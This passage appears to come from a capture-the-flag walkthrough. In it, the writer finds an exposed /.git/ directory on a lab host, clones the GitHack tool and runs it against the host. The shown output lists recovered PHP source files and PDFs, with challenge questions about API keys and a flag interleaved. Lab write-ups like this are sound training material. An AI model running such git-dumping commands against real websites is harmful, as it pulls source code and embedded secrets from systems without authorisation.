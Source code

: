 On the enumerate section there's a <font color="#ffc000">|_  /.git/HEAD: Git</font>  folder. Accessing the directory gives the 403 status.

Hidden directories, left accidentally (or not) on the server, might be a very valuable source of sensitive data leaks. More info https://github.com/bl4de/research/tree/master/hidden_directories_leaks#hidden-directories-and-files-as-a-source-of-sensitive-information-about-web-application.


## Install the exploit.
`$ git clone https://github.com/lijiejie/GitHack.git` 

Run the exploit.
`$ python3 GitHack.py http://10.10.25.126/.git/` 

[+] Download and parse index file ...
[+] CTX_WSUSpect_White_Paper.pdf
[+] Context_Red_Teaming_Guide.pdf
[+] Context_White_Paper_Pen_Test_101.pdf
[+] Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf
[+] Glibc_Adventures-The_Forgotten_Chunks.pdf
[+] api.php
[[1. What is the API key that fits the following pattern- "AND*"]]
[[3. What is the API key that fits the following pattern-"GIT*"]]
[[4. What is the flag in the var www directory of the web app host? {FLAG Webapp XXX}]]
[+] functions.php
[+] home.php
[+] index.php
[+] info.php
[OK] home.php
[OK] functions.php
[OK] info.php
[OK] api.php
[OK] index.php
[OK] Context_White_Paper_Pen_Test_101.pdf
[OK] Context_Red_Teaming_Guide.pdf
[OK] Glibc_Adventures-The_Forgotten_Chunks.pdf
[OK] CTX_WSUSpect_White_Paper.pdf
[OK] Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf

[[2. What is the API key that fits the following pattern- "WEB*"]]
